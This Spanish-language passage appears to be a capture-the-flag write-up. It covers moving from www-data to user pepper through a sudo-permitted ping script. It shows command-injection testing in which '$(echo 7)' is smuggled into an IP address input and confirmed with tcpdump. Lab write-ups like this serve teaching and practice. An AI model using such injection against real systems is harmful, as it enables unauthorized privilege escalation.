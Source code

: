 ### User pivoting al usuario pepper {-}

Hemos podido comprobar que no podiamos leer el fichero 
```bash
 user.txt 
```
 siendo el usuario 
```bash
 www-data 
```
. Tendremos que convertirnos en el usuario
**pepper** antes de intentar rootear la maquina.

```bash
id
sudo -l
```

Aqui vemos que podemos ejecutar el script 
```bash
 /var/www/Admin-Utilities/simpler.py 
```
 como el usuario **pepper** sin proporcinar contraseña.

Si lanzamos el script con el commando 
```bash
 sudo -u pepper /var/www/Admin-Utilities/simpler.py 
```
 vemos que es una utilidad que lanza un ping a maquinas
definidas por el commando 
```bash
 -p 
```
.

si nos ponemos en escucha por trazas **ICMP** con el commando 
```bash
 tcpdump -i tun0 icmp -n 
```
 y que lanzamos el script:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> 10.10.14.7
```

Recibimos la traza **ICMP**.

Intentamos ver si podemos injectar commandos con el script.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> 10.10.14.$(echo 7)
```

Aqui tambien recibimos la traza **ICMP** lo que significa que el programa interpreta codigo.
